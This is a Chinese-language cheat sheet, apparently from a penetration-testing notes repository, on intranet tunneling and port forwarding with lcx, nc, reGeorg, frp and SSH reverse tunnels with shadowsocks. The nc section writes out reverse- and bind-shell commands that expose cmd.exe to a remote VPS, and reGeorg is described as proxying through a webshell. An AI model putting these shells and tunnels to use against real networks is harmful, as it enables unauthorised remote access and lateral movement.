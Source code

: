 ### 工具

+ lcx.exe

    ```shell
    # 内网端口转发
    lcx.exe -slave vps 2333 127.0.0.1 3389  # 把主机 3389 端口转发到 vps 2333 端口
    lcx.exe -listen 2333 4444  # 监听 2333 端口，并将 2333 请求转发给 4444 端口
    
    # 本地端口转发
    lcx.exe -tran 21 ip 3389  # 将 3389 端口转发到 21 端口
    ```

+ earthworm

    升级版：termite

+ s5.py

    配合 Proxifier 一起使用

+ nc

    ```shell
    # 反向连接
    nc -lvvvp 2333  # vps 开启监听
    nc -t -e cmd.exe vps 2333  # -t 通过 Telnet 模式执行 cmd.exe
    
    # 正向代理
    nc -lp 2333 -t -e cmd.exe  # vps
    nc -vv vps 2333  # 本地
    ```

    

+ reGeorg

    通过 `webshell` 建立一个 `socks` 代理进行内网穿透

+ frp

    frp 牛逼，直接看[文档](https://github.com/fatedier/frp/blob/master/README_zh.md) 

    将 **frps** 及 **frps.ini** 放到具有公网 IP 的机器上。

    将 **frpc** 及 **frpc.ini** 放到处于内网环境的机器上。

    **通过 ssh 访问公司内网机器**

    1. 修改 frps.ini 文件，这里使用了最简化的配置：

    ```shell
    # frps.ini
    [common]
    bind_port = 7000
    
    ./frps -c ./frps.ini
    ```

    ​    2.修改 frpc.ini 文件，假设 frps 所在服务器的公网 IP 为 x.x.x.x；

    ```shell
    # frpc.ini
    [common]
    server_addr = x.x.x.x
    server_port = 7000
    
    [ssh]
    type = tcp
    local_ip = 127.0.0.1
    local_port = 22
    remote_port = 6000
    
    ./frpc -c ./frpc.ini
    ```

    通过 ssh 访问内网机器，假设用户名为 test

    ```
    ssh -oPort=6000 test@x.x.x.x
    ```

    **通过自定义域名访问部署于内网的 web 服务**

    有时想要让其他人通过域名访问或者测试我们在本地搭建的 web 服务，但是由于本地机器没有公网 IP，无法将域名解析到本地的机器，通过 frp 就可以实现这一功能，以下示例为 http 服务，https 服务配置方法相同， vhost_http_port 替换为 vhost_https_port， type 设置为 https 即可。

    1. 修改 frps.ini 文件，设置 http 访问端口为 8080：

    ```shell
    # frps.ini
    [common]
    bind_port = 7000
    vhost_http_port = 8080
    
    ./frps -c ./frps.ini
    ```

    ​    2.修改 frpc.ini 文件，假设 frps 所在的服务器的 IP 为 x.x.x.x，local_port 为本地机器上 web 服务对应      的端口, 绑定自定义域名 `www.yourdomain.com`:

    ```
    # frpc.ini
    [common]
    server_addr = x.x.x.x
    server_port = 7000
    
    [web]
    type = http
    local_port = 80
    custom_domains = www.yourdomain.com
    
    ./frpc -c ./frpc.ini
    ```

    1. 将 `www.yourdomain.com` 的域名 A 记录解析到 IP `x.x.x.x`，如果服务器已经有对应的域名，也可以将 CNAME 记录解析到服务器原先的域名。
    2. 通过浏览器访问 `http://www.yourdomain.com:8080` 即可访问到处于内网机器上的 web 服务。

+ ngrok

### 服务器端:（只用ssh映射，不用跑shadowsocks）

```shell
ssh -R 0.0.0.0:2333:localhost:2333 root@120.79.1.209

vi /etc/ssh/sshd_config
添加一行 //添加GatewayPorts yes  # 使服务器的ssh允许转发0.0.0.0

netstat -an | grep 2333  # 查看端口转发情况
ufw allow 2333    # 防火墙打开端口，记得打开阿里云官网的防火墙端口
service sshd restart
```

### 内网端（跑shadowsocks）
```shell
ssserver -p 2333 -k login_233 -m aes-256-cfb  # 跑shadowsocks
ssh -R 0.0.0.0:2333:localhost:2333 root@120.79.1.209  # ssh设置
```
### 访问
```shell
sslocal -s 35.201.152.114 -p 2333 -k 123456 -m aes-256-cfb -l 1082
//第三方进行
//测试端口
```

## 小问题

出现 问题 ssserver 无法打开
原因：本文适用于解决openssl升级到1.1.0以上版本，导致shadowsocks2.8.2启动报undefined symbol: EVP_CIPHER_CTX_cleanup错误。
解决https://blog.csdn.net/vbaspdelphi/article/details/72993626